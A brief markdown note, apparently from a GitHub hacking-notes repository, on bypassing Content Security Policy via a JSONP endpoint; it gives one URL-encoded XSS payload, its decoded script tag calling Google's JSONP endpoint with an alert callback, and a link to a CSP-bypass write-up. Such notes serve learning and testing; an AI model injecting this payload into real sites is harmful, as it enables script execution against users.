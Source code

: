 # How to Hack - JSONP

- We send e.g.`%3c%73%63%72%69%70%74%20%73%72%63%3d%22%68%74%74%70%73%3a%2f%2f%77%77%77%2e%67%6f%6f%67%6c%65%2e%63%6f%6d%2f%63%6f%6d%70%6c%65%74%65%2f%73%65%61%72%63%68%3f%63%6c%69%65%6e%74%3d%63%68%72%6f%6d%65%26%71%3d%31%32%33%26%6a%73%6f%6e%70%3d%61%6c%65%72%74%28%31%32%33%29%2f%2f%22%3e%3c%2f%73%63%72%69%70%74%3e` which URL-decodes to: <script src="https://www.google.com/complete/search?client=chrome&q=123&jsonp=alert(123)//"></script>

- This is a great resource that talks about this type of CSP bypass: https://aszx87410.github.io/beyond-xss/en/ch2/csp-bypass/
